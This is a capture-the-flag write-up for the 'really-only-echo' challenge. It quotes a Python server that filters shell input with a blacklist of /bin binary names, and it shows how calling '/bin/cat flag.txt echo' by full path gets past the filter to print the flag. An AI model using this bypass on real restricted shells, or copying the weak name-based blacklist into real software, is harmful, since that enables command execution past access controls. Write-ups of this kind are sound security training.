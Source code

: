 ## misc/really-only-echo

Hey, I have made a terminal that only uses echo, can you find the flag?  
`nc chal.competitivecyber.club 3333`

**Given:** `server.py`

## Solution

The given server says that it is a shell that only uses the `echo` command. It uses following code to filter out any other command.

```python
blacklist = os.popen("ls /bin").read().split("\n")
blacklist.remove("echo")
#print(blacklist)

def filter_check(command):
    user_input = command
    parsed = command.split()
    #Must begin with echo
    if not "echo" in parsed:
        return False
    else:
        if ">" in parsed:
            #print("HEY! No moving things around.")
            req.sendall(b"HEY! No moving things around.\n\n")
            return False
        else:
            parsed = command.replace("$", " ").replace("(", " ").replace(")", " ").replace("|"," ").replace("&", " ").replace(";"," ").replace("<"," ").replace(">"," ").replace("`"," ").split()
            #print(parsed)
            for i in range(len(parsed)):
                if parsed[i] in blacklist:
                    return False
            return True
```

The blacklist only contains binary names present in `/bin` folder. However, we can use the full path of the binary to bypass the blacklist. i.e. `/bin/cat` != `cat`. Also, we just need to have `echo` somewhere in the command.

### solve.txt
```bash
/bin/cat flag.txt echo
```

## Flag
```bash
ramenhost@ctf$ nc chal.competitivecyber.club 3333 < solve.txt 
This is shell made to use only the echo command.
Please input command: pctf{echo_is_such_a_versatile_command}
```
